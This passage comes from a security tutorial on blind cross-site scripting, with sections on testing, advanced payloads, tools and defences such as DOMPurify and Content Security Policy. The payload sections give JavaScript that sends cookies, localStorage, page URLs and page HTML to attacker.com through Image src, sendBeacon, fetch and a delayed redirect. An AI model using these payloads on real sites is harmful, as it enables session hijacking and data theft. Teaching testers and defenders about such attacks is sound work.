 ### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  
